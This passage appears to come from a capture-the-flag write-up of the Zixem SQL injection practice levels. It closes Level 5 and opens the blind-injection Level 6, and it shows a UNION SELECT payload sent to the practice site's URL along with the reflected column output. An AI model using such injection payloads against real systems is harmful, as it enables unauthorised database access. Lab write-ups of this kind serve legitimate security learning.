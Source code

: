![Level 5 Result](./lvl5-result.png)  

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-6)
Start:  
[http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10)  
> Hello im teaching hacking for money, want details?
>
> - Serial number of teacher:  10
> - Teacher: ........................ZiXeM
> - Age:..............17
> - Price per 1 leeson: .....................50
>
> Blind challenge
> Task: Get the details of the teacher that his serial\id is 11.
> The answer should look like that: http://i.imgur.com/AyZ7uYV.png
> And not like that: http://i.imgur.com/RBkHPIN.png
>
> I repeat: in this specific challenge - You're NOT supposed to pull the version\db name. THIS IS BLIND SQL INJECTION
> You're supposed to pull information out of a table just by guessing the table name & its columns
> (*note: using information_schema db is not allowed*)...

+ Test with prev Payload:  
+ ***PAYLOAD***: `10 AND 1=2 UNION SELECT 1,2,3,4--`  
+ `http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> - Serial number of teacher:  1
> - Teacher: ........................2
> - Age:..............3
> - Price per 1 leeson: .....................4
